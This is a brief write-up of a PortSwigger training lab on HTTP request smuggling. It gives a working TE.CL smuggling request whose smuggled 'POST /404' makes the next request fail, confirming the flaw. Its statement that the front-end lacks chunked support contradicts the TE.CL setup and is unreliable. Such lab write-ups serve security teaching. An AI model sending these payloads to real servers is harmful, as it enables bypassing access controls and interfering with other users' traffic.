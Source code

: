 # HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

## Reproduction and proof of concept

1. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

The second request should receive an HTTP 404 response.

## Exploitability

An attacker will need to smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a `404 Not Found` response. In this case the TE.CL vulnerability must be exploited via differential response.
